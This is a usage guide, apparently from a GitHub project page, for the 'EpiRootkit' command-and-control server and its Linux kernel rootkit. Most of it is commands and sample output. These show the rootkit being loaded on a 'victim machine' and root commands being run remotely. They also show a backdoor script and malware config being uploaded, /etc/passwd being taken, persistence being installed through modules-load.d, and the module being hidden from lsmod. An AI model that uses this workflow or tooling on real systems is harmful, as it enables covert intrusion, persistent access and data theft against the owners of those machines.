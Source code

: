 ```yaml
---
title: "Usage Guide"
description: "Comprehensive usage scenarios and workflows"
icon: "menu_book"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 304
---
```


# Usage Guide

Complete workflows and usage scenarios for the EpiRootkit C2 server.

## Getting Started

### 1. Start the C2 Server
```bash
cd attacking_program
pnpm start
```

This command starts both the C2 server and the Web UI. The CLI prompt (`c2-server$ `) will appear for server management, and the Web UI will be available at [http://localhost:3000](http://localhost:3000) by default.

Real-time event logs appear in the console, providing visual alerts for significant events such as client connections and disconnections.

### 2. Wait for Rootkit Connection
```bash
# On victim machine
sudo insmod epirootkit.ko

# C2 server will show:
┌─ Client-1
  ✓ [2025-05-25 16:13:29] Connected
└─
```

### 3. Authenticate
```bash
c2-server$ auth Client-1 <password> (default: password)
┌─ Client-1
  ✓ [2025-05-25 16:13:30] Authenticated
└─
```

#### Brute Force Protection

Rate limit to 5 attempts per 60 seconds.

## Basic Workflows

### Client Management Workflow

#### List and Monitor Clients
```bash
# List all connected clients
c2-server$ ls
┌─ Connected Clients
  • Client-1 - AUTHENTICATED - Last seen: 6:13:29 PM
  • Client-2 - UNAUTHENTICATED - Last seen: 6:10:15 PM
└─

# Check specific client status
c2-server$ status Client-1
┌─ Client-1
  • [2025-05-25 16:13:30] Command result:
  • EpiRootkit Status:
  • Version: 1.0.0
  • Authentication: YES
  • Connection: CONNECTED
  • Module Hidden: YES
  • Encryption: DISABLED
  • Persistence: ENABLED
└─

# Monitor connection health
c2-server$ keepalive Client-1
┌─ Client-1
  • [2025-05-25 16:13:31] Command result:
  • Keepalive Status:
  • Last ping sent: 2025-05-25 16:14:00
  • Connection stable: YES
└─
```

### Command Execution Workflow

#### Basic System Commands
```bash
# Check user privileges
c2-server$ exec Client-1 whoami
┌─ Client-1
  • [2025-05-25 16:13:32] Command result:
  • root
└─

# System information
c2-server$ exec Client-1 uname -a
┌─ Client-1
  • [2025-05-25 16:13:33] Command result:
  • Linux victim 5.4.0-74-generic #83-Ubuntu SMP Wed Apr 29 23:25:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
└─
```

### File Transfer Workflow

#### Upload Files to Victim
```bash
# Upload a script
c2-server$ upload Client-1 ./scripts/backdoor.sh /tmp/backdoor.sh
┌─ File Upload
  • Uploading ./scripts/backdoor.sh → /tmp/backdoor.sh
  ✓ Upload initiated
└─

# Upload configuration
c2-server$ upload Client-1 ./configs/malware.conf /etc/malware.conf
┌─ File Upload
  • Uploading ./configs/malware.conf → /etc/malware.conf
  ✓ Upload initiated
└─

# Verify upload
c2-server$ exec Client-1 ls -la /tmp/backdoor.sh
c2-server$ exec Client-1 chmod +x /tmp/backdoor.sh
```

#### Download Files from Victim
```bash
# Download sensitive files
c2-server$ download Client-1 /etc/passwd ./victim_passwd
┌─ File Download
  • Downloading /etc/passwd → ./victim_passwd
  ✓ Download request sent
└─
```

## Advanced Workflows

### Persistence Management

#### Install Persistence
```bash
# Interactive persistence menu
c2-server$ persist Client-1
┌─ Persistence Management - Client-1
  • Install All Methods
  • Remove All Methods
  • Install Specific Method
  • Show Status
  • Exit

? Select persistence action: Install All Methods
┌─ Installing Persistence
  • Installing all persistence mechanisms on Client-1...
  ✓ all persistence mechanisms installation command sent
└─

# Install specific method
c2-server$ persist Client-1 install modules
┌─ Installing Persistence
  • Installing modules-load.d persistence on Client-1...
  ✓ modules-load.d persistence installation command sent
└─
```

### Stealth Configuration

#### Interactive Configuration
```bash
c2-server$ config Client-1
┌─ Configuration - Client-1
  • Fetching current status...

  Current Configuration:
  [X] Module Hiding (Click to disable)
  [ ] Persistence (Click to enable)
  Refresh Status
  Exit

? Select option: [X] Module Hiding (Click to disable)
┌─ Configuration - Client-1
  • Applying configuration change...
  ✓ Configuration updated
└─
```

#### Manual Stealth Commands
```bash
# Hide module from lsmod
c2-server$ exec Client-1 lsmod | grep epirootkit
# (should show module)

# Enable hiding
c2-server$ status Client-1
# Check if "Module Hidden: YES"

# Verify hiding
c2-server$ exec Client-1 lsmod | grep epirootkit
# (should show no output if hidden)
```

## Web UI Usage

### Access Web Interface
1. Open browser to `http://localhost:3000`
2. Login with the configured password
3. View connected clients in real-time
4. Execute commands through the web interface
5. Monitor client status and logs

### Key Features
- **Real-time Updates**: Client status updates automatically
- **Command History**: View previous commands and results
- **File Operations**: Upload/download files through web interface
- **Authentication Management**: Handle client authentication securely

